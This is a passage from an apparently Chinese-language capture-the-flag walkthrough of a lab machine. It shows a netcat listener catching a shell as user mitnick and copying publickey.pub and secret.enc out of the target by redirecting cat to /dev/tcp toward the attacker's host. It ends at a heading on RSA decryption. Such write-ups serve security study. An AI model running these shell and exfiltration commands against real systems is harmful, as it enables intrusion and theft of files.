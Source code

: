 ```shell
# run /home/love/a.sh

kali└─# nc -lvp 1235
listening on [any] 1235 ...
id
connect to [192.168.31.126] from ticket.shieldweb.che [192.168.31.116] 49780
uid=1003(mitnick) gid=1003(mitnick) grupos=1003(mitnick)
```

在`/home/mitnick`目录下发现`publickey.pub、secret.enc`，大概率是通过公钥去解密`enc`，其实`mitnick`家目录的文件`love`账户可以读，直接操作就行了

```
love@osiris:/home/mitnick$ ls
publickey.pub  sas  secret.enc
love@osiris:/home/mitnick$ ll
total 2468
drwxr-xr-x 6 root    root       4096 ago 31  2023 ..
-rw-r--r-- 1 mitnick mitnick     807 ago 31  2023 .profile
-rw-r--r-- 1 mitnick mitnick    3526 ago 31  2023 .bashrc
-rw-r--r-- 1 mitnick mitnick     220 ago 31  2023 .bash_logout
drwxr-xr-x 3 mitnick mitnick    4096 ago 31  2023 .local
-rw-r--r-- 1 mitnick mitnick     138 ago 31  2023 publickey.pub
-rw-r--r-- 1 mitnick mitnick      32 ago 31  2023 secret.enc
lrwxrwxrwx 1 mitnick mitnick       9 ago 31  2023 .bash_history -> /dev/null
-rwx-----x 1 mitnick mitnick 2486396 ago 31  2023 sas
drwx------ 2 mitnick mitnick    4096 sep  1  2023 .ssh
drwxr-xr-x 4 mitnick mitnick    4096 jun 28 19:12 .
```

先把文件取到本地

```shell
love@osiris:/home/mitnick$ cat publickey.pub > /dev/tcp/192.168.31.126/1234
love@osiris:/home/mitnick$ cat secret.enc > /dev/tcp/192.168.31.126/1234

kali└─# nc -lvp 1234>publickey.pub
kali└─# nc -lvp 1234>secret.enc
listening on [any] 1234 ...
connect to [192.168.31.126] from ticket.shieldweb.che [192.168.31.116] 35344
```



### 6.获得`tomu`权限

##### RSA解密

关于RSA的基础知识推荐看B站`风二西`师傅的成套[[视频](https://www.bilibili.com/video/BV1Dw411f7Ht)](https://www.bilibili.com/video/BV1Dw411f7Ht)

```shell
#风二西
https://www.bilibili.com/video/BV1Dw411f7Ht
```
